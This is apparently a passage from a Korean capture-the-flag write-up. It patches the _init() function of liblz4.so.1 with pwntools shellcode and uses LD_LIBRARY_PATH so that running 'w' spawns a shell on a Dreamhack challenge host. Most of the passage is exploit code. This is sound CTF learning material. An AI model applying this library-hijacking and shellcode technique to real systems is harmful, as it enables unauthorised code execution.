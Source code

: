 `w`는 `liblz4.so.1`의 `_init()`을 가장 먼저 호출한다. `_init()` 부분을 셸코드로 덮어쓰면 된다.

```python
# modify liblz4.so.1.7.1

f = open('./liblz4.so.1.7.1', 'rb')
lib = f.read()
f.close()

shellcode = asm(shellcraft.sh())
offset = 0x1cf8 # offset of _init()

modified_lib = lib[:offset]
modified_lib += shellcode
modified_lib += lib[offset + len(shellcode):]
```

### Get shell

```python
# get shell

tmpdir = create_tmpdir()
write_file('liblz4.so.1', modified_lib)
set_env('LD_LIBRARY_PATH', tmpdir)
execute_cmd('w')
```

### Full exploit

```python
from pwn import *
from base64 import b64encode
context(arch='amd64')

REMOTE = True

if not REMOTE:
    r = process('./release/public/main')
else:
    r = remote('host1.dreamhack.games', 15488)

sla = r.sendlineafter
sa = r.sendafter

def execute_cmd(cmd):
    sla('> ', '1')
    sla('i. id\n', cmd)

def set_env(name, value):
    sla('> ', '2')
    sla('> ', '2')
    r.sendline(name)
    r.sendline(value)

def create_tmpdir():
    sla('> ', '3')
    r.recvuntil('Your personal directory is: ')
    return r.recvline()[:-1]

def write_file(name, data):
    sla('> ', '4')
    sla('File name: ', name)
    sla('File data (base64 encoded): ', b64encode(data))

```